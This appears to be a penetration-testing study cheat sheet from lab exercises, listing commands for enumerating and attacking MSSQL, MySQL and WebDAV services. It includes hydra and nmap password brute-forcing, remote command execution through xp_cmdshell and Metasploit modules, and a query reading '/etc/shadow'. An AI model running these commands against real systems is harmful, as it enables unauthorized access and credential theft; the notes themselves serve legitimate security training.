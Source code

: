 ## Port Information:

| SERVICE               | PORT NUMBER |
|-----------------------|-------------|
| http, https           | 80, 443     |
| SMB                   | 445(TCP)    |
| SMB on top of NETBIOS | 139         |
|                       |             |


### Directory busting

- gobuster
- dirb
- msfconsole
- dirbuster

### Payload generation

- msfvenom

### Password enumeration

- hydra
    - for MySQL user ‘root’ we can also provide a username list
        
        ```jsx
        hydra 192.140.141.3 -l root /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  mysql
        ```
        
    - for WebDAV enumeration
        
        ```jsx
        hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 10.5.19.162 http-get /webdav/
        ```
        
- metasploid(msfconsole)
    - for brute forcing a MySQL user password eg ‘root’
        
        ```jsx
        use auxiliary/scanner/mysql/mysql_login
        ```
        

### Download the source code

- curl
- wget

### Open the website in the command line

- browsh → open the browser in the command line

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f47dde30-36bf-4128-a5a2-df9580b08968/48ebad61-d33a-4908-83d9-1422799200d2/Untitled.png)

- lynx

## Ms-SQL(Microsoft based SQL) enumeration

- Nmap
    - for more info and NTLM info also
        
        ```jsx
        nmap 10.5.31.168 -sV -sC -p 1433
        ```
        
    - for information about the MSSQL database server
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-info
        ```
        
    - for brute forcing the users and their passwords on the MSSQL server
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
        ```
        
    - what user have an empty password(or anonymous login)
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-empty-password
        ```
        
    - Execute MSSQL query to extract sysusers(syslogins)
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
        ```
        
    - Execute a command on MSSQL
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
        ```
        
- msfconsole
    - brute forcing users and their passwords
        
        ```jsx
        use auxiliary/scanner/mssql/mssql_login
        ```
        
    - Running the MSSQL enumeration module to find all possible information
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum
        ```
        
    - Enumerate all MSSQL logins or extract MSSQL users
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum_sql_logins
        ```
        
    - Execute a command on the target machine
        
        ```jsx
        use auxiliary/admin/mssql/mssql_exec
        ```
        
    - Enumerate all available system users(or domain accounts)
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum_domain_accounts
        ```
        

## MySQL enumeration

- MySQL
    - connect with the database as ‘root’
        
        ```jsx
        mysql -h <IP address> -u root
        ```
        
- Nmap
    - MySQL user enumeration
        
        ```jsx
        nmap 192.99.192.3 -sV --script mysql-enum
        ```
        
    - what user have an empty password(or anonymous login)
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-empty-password
        ```
        
    - finding user through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-users --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - finding databases on the SQL server through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-databases --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - finding the data dir(or other variables) through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-variables --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - Check whether File Privileges can be granted to non-admin users using mysql_audit nmap script.
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-audit --script-args="mysql-audit.username='root', mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'”
        ```
        
    - running our query on ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-query --script-args="query='Select * from books.authors;',username='root',password=''”
        ```
        
- *msfconsole*
    - for brute forcing a MySQL user password eg ‘root’
        
        ```jsx
        use auxiliary/scanner/mysql/mysql_login
        ```
        

## Basic my SQL commands

- Connect to the SQL server
    
    ```jsx
    mysql -h <IP address> -u <user>;
    ```
    
- to see the databases
    
    ```jsx
    Show databases;
    ```
    
- to select a database
    
    ```jsx
    Use <database name>;
    ```
    
- to see tables
    
    ```jsx
    Show tables;
    ```
    
- to see the count of rows from a table
    
    ```jsx
    Select count(*) from <tablename>;
    ```
    
- to see the values inside the table
    
    ```jsx
    Select * from <tablename>;
    ```
    
- to open a file in the SQL database
    
    ```jsx
    Select load_file("/etc/shadow");
    ```
    
    ---
    

## WebDAV Exploitation

- using nmap
    - WebDAV directory enumeration
        
        ```jsx
        nmap 10.5.19.162 -p 80 --script http-enum
        ```
        
- using Metasploit

## Davtest → used to check what files can be uploaded on the WebDAV server

- davtest
    
    ```jsx
    davtest -auth bob:password_123321 -url http://10.5.19.162/webdav/
    ```
    

## Cadaver → connecting to the WebDAV server.

- cadaver
    
    ```jsx
    cadaver http://10.5.19.162/webdav/
    ```
